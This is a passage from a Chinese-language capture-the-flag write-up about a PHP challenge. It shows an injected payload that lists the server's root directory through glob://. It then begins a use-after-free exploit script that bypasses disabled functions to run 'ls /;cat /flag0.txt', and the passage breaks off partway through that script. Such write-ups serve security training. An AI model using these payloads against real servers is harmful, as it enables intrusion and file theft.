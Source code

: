 ![image-20241129151607469](../assets/image-20241129151607469.png)

或者

payload：（记得删注释）

```php
c=?><?php $a = opendir("glob:///*"); // 打开根目录，并将目录句柄赋值给$a
while (($file = readdir($a)) !== false) { // 循环读取目录中的每个条目
    echo $file . "<br>"; // 输出每个条目的名称，并添加HTML换行标签
};
exit(0); // 终止脚本执行
?>
```

我们可以发现flag0.php

利用uaf的脚本进行命令利用uaf的脚本进行命令执行执行：

尝试执行ls /; cat /flag0.txt命令

```php
c=?><?php
pwn("ls /;cat /flag0.txt");
 
function pwn($cmd) {
    global $abc, $helper, $backtrace;
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }
 
    class Helper {
        public $a, $b, $c, $d;
```